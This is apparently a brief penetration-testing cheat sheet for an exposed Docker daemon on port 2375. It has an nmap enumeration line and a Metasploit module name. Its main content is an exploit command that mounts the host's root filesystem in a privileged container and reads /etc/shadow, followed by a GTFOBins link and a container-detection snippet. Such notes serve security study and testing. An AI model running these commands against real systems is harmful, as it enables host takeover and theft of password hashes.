 ## Enumeration
```
    msf> use exploit/linux/http/docker_daemon_tcp
    nmap -sV --script "docker-*" -p <PORT> <IP>
```
## Vuln to exploit

```
    docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
    cat /mnt/etc/shadow
```

## GTFO Bins to reference

```
https://gtfobins.github.io/gtfobins/docker/#shell
```

## Bash to check if you are inside container

```
if [ -f /.dockerenv ]; then
    echo "I'm inside matrix ;(";
else
    echo "I'm living in real world!";
fi
```